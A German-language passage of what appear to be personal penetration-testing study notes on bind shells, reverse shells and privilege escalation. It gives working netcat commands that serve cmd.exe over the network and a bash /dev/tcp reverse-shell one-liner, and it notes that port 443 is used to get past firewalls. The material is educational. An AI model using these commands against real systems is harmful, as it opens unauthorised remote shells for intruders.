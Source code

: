 Auf der Client Seite können Linux Kommandos eingegeben werden, z.B. `ifconfig`, `ls`, `whoami`

Heißt Bind Shell weil diese an einen Port gebunden wurde. 

In der umgekehrten Richtung:

```bash
 c:\nc>nc -nlvp 4444 -e cmd.exe
```

```bash
$ ncat <Ziel IP> 4444
```

z.B. `ipconfig`, `whoami`, `dir`



### Reverse shell

Firewalls behandeln eingehenden Traffic restriktiver als ausgehende Kommunikation.

Das bedeutet, dass es erfolgsversprechender ist ein Verbindung vom Opfer System aus zu starten. In diesem Fall sind die Chancen besser, dass die Verbindung nicht blockiert wird. D.h. das Opfer System initiiert die Verbindung zum Hacker-System. Auf dem Hacker-System muss dazu ein Server laufen und auf die Verbindung warten. 

Am Hacker-System starten wir den Server:

```bash
$ ncat -nlvp 443
```

443 ist der https port

Am Opfer-System nun als Client die Verbindung zum Angreifer aufbauen und eine shell bereitstellen.

```
c:\nc>nc -nv <Ziel IP> 443 -e cmd.exe
```

ToDo: Ausprobieren ob man so die Windows Firewall umgehen kann.

Weitere Variante für die Client Seite:

```bash
$ bash -i >& /dev/tcp/<Ziel IP>/443 0>&1
# -i ... interaktive bash
# >$ ... Ausgabe umleiten (redirecting  standard  output  and  standard error)
# 0>&1 ... stdin (0) ebenfalls von der Netzwerkverbindung nehmen. Damit wird alles vom Zielsystem gesendete von der bash als stdin interpretiert (d.h. die Kommandos)
```



### Privilege Escalation

In einem ersten Schritt erhält ein Angreifer normalerweise nur eine shell eines Users mit normalen Rechten. Das Ziel ist dann diese Rechte bis zur root shell mit Administrator-Privilegien zu erweitern.

Oft ist das erste kontrollierte System auch nur ein Sprungbrett um weitere Systeme zu kompromitieren.
